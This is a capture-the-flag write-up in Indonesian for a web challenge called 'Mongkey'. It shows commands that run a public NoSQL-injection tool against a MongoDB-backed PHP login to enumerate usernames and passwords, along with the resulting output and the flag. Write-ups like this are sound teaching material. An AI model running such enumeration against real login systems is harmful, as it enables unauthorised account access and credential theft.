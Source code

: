 # Mongkey
## About The Challenge

![image](https://github.com/qodrizizi/CTF_WRITEUP/assets/111678241/f1e9c856-7778-470f-90a4-409e514e0e54)

Diberikan sebuah website http://103.167.136.89:10002/ dengan tampilan :
![image](https://github.com/qodrizizi/CTF_WRITEUP/assets/111678241/638daf3e-7f04-4575-bc70-15c3f4ad148d)

# Solutions

Dalam challenge kita diharuskan login sebagai admin untuk mendapati flagnya
Dalam challenge juga saya mendapati petunjuk yaitu "Do you know if it is possible to post an array in PHP? I use MongoDB btw"
saya berpikir bahwa ini merupakan sejenis SQL Injection namun dalam bentu mongodb saya berpikir menggunakan tool NosQLI MongoDB injection
menggunakan tool yang saya dapatkan dari [sini](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/tree/master)
setelah mendapatkan file toolnya menggunakan git clone

saya memasukkan perintah, untuk mencari username yang terdapat didalam website :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep username -op login:login
```
saya mendapati bahwa username didalam website ini ada dua yaitu :
```shell
2 username(s) found:
admin
guest
```
![Cuplikan layar dari 2023-06-15 15-55-27](https://github.com/qodrizizi/CTF_WRITEUP/assets/111678241/d3f78ce3-ee61-4b4b-ba13-02211ce348e2)


guest bukanlah username untuk medapatkan flagnya maka saya berasumsi bahwa flag terdapat pada user 'admin', mari kita cari passwordnya dengan perintah :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep password -op login:login
```
setelah tool selesai melakukan tugasnya maka mendapati hasil
```shell
2 password(s) found:
guest
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
![Cuplikan layar dari 2023-06-15 15-55-48](https://github.com/qodrizizi/CTF_WRITEUP/assets/111678241/34b96e5d-e600-4554-b2c3-46f38fc68b9a)


wow ternyata password untuk user admin adalah flag yang kita cari cari

## Flag
**ForestyHC{reject_humanity_return_to_monke_5543d8}**
